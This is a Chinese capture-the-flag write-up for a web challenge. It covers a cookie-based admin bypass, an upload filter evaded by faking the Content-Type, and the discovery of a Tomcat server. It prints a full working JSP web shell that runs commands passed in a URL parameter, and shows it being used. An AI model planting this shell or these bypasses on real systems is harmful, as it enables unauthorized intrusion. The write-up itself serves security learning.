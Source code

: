 进入题目后来到登录页面<br>
直接登录或者注入，都是用户名/密码错误<br>
后来注意到cookie中有

```
admin
```

这一栏，值为0<br>
手动改为1<br>
保存后再随便登录，即可登录成功<br>
发现来到文件上传页面<br>
随便上传一个php文件测试<br>
发现提示只能上传图片<br>
随机更改`Content-Type`为`image/jpeg`<br>
即可上传任意文件<br>
但是上传的php文件，发现访问后直接下载成功<br>
我一度以为服务器无法解析php语言，后来直到我访问

```
http://83bb4e6ae2834a409a8fc6186638304ae4cfd02e70c340eb.game.ichunqiu.com/12
```

一个不存在的路径，报错得到

```
Apache Tomcat/8.5.30
```

我才意识到这是一个jsp的网站<br>
随机我找了一个jsp的小马

```
&lt;%
    if("023".equals(request.getParameter("pwd")))`{`
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("&lt;pre&gt;");
        while((a=in.read(b))!=-1)`{`
            out.println(new String(b));
        `}`
        out.print("&lt;/pre&gt;");
    `}`
%&gt;
```

随机上传，得到路径

```
File uploaded to /784a0215-d519-405d-ab2d-d6bbd03d3ceb/123.jsp
```

执行命令

```
view-source:http://83bb4e6ae2834a409a8fc6186638304ae4cfd02e70c340eb.game.ichunqiu.com/784a0215-d519-405d-ab2d-d6bbd03d3ceb/123.jsp?pwd=023&amp;i=ls /
```
